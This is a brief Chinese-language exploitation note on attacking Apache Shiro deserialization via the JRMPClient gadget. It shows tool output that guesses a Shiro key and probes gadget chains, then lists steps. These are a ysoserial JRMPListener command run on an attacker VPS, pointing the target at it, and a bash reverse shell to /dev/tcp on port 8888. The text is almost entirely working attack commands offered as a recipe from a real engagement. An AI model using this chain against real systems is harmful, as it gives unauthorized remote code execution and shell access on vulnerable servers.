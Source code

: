 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，可以尝试JRMPClient，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x00 漏洞利用
  
  1.使用ysoserial.jar 工具搭建服务，VPS执行 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping rskzeg.dnslog.cn"
  2.shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址
  3.执行反弹命令bash -i >& /dev/tcp/xxxxxx/8888 0>&1
  

